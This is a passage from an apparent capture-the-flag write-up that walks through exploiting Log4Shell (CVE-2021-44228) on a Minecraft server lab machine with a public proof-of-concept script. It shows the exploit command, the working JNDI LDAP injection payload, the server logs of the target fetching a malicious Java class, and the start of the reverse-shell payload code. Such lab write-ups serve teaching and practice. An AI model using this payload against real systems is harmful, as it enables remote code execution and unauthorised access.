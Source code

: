     
    oxdf@hacky$ tar xf jdk-8u20-linux-x64.tar.gz 
    oxdf@hacky$ rm jdk-8u20-linux-x64.tar.gz 
    oxdf@hacky$ ls
    Dockerfile  jdk1.8.0_20  LICENSE  poc.py  README.md  requirements.txt  target  vulnerable-application
    

#### Run Fail

I’ll run the exploit, giving it my IP, a web port to listen on, and the port I
want a shell back on:

    
    
    oxdf@hacky$ python poc.py --userip 10.10.14.6 --webport 8000 --lport 443
    
    [!] CVE: CVE-2021-44228
    [!] Github repo: https://github.com/kozmer/log4j-shell-poc
    
    [+] Exploit java class created success
    [+] Setting up LDAP server
    
    [+] Send me: ${jndi:ldap://10.10.14.6:1389/a}
    
    [+] Starting Webserver on port 8000 http://0.0.0.0:8000
    Listening on 0.0.0.0:1389
    

It gives me this `${jndi:ldap://10.10.14.6:1389/a}` payload, which I can send
to Minecraft (and when I do it :

    
    
    <0xdf> ${jndi:ldap://10.10.14.6:1389/a}
    ‌> 
    

There’s requests at the exploit server:

    
    
    Listening on 0.0.0.0:1389
    Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
    10.10.11.249 - - [10/Jun/2024 17:47:28] "GET /Exploit.class HTTP/1.1" 200 -
    Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
    10.10.11.249 - - [10/Jun/2024 17:47:29] "GET /Exploit.class HTTP/1.1" 200 -
    Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
    10.10.11.249 - - [10/Jun/2024 17:47:29] "GET /Exploit.class HTTP/1.1" 200 -
    

But no shell connection at `nc`.

#### POC Analysis

The `poc.py` script starts off with a `generate_payload` function that starts
defining a template Java program on [lines
15-54](https://github.com/kozmer/log4j-shell-poc/blob/main/poc.py#L15-L54):

    
    
    def generate_payload(userip: str, lport: int) -> None:
        program = """
    import java.io.IOException;
    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.Socket;
    